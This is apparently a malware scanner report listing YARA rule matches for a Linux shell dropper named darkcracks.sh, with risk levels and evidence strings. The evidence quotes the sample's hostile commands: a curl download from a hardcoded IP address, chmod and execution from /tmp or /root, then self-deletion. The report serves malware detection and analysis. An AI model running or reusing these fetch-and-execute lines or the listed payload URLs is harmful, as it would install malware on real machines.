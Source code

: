 ## linux/2024.Darkcracks/darkcracks.sh [😈 CRITICAL]

|   RISK   |                                                                                 KEY                                                                                 |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                                      EVIDENCE                                                                                                                                                                                                                                                                                                                                                      |
|----------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [c2/tool_transfer/shell](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/tool_transfer/shell.yara#curl_chmod_relative_run_tiny)                     | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/covert_location/chdir_unusual](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/covert-location/chdir-unusual.yara#cd_val_obsessive)   | changes directory to multiple unusual locations                | [cd /;](https://github.com/search?q=cd+%2F%3B&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [evasion/self_deletion/run_sleep_delete](https://github.com/chainguard-dev/malcontent/blob/main/rules/evasion/self_deletion/run_sleep_delete.yara#run_sleep_delete) | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                                               |
| CRITICAL | [net/download/fetch](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/download/fetch.yara#curl_download_ip)                                         | Invokes curl to download a file from an IP                     | [curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| HIGH     | [c2/addr/ip](https://github.com/chainguard-dev/malcontent/blob/main/rules/c2/addr/ip.yara#http_hardcoded_ip)                                                        | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v)<br>[http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl](http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1iM9hd-x64-musl)                                                                                                                                                                                                                                                                                                                                                                                                       |
| MEDIUM   | [exec/shell/exec](https://github.com/chainguard-dev/malcontent/blob/main/rules/exec/shell/exec.yara#calls_shell)                                                    | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/file/file-make_executable.yara#chmod_executable_shell)                    | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [fs/path/relative](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/relative.yara#relative_path_val)                                            | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MEDIUM   | [fs/path/root](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/root.yara#root_path_val)                                                        | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/permission/permission-modify.yara#chmod)                                     | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| LOW      | [fs/path/var](https://github.com/chainguard-dev/malcontent/blob/main/rules/fs/path/var.yara#var_path)                                                               | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| LOW      | [net/url/embedded](https://github.com/chainguard-dev/malcontent/blob/main/rules/net/url/embedded.yara#http_url)                                                     | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| LOW      | [process/chdir](https://github.com/chainguard-dev/malcontent/blob/main/rules/process/chdir.yara#chdir_shell)                                                        | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

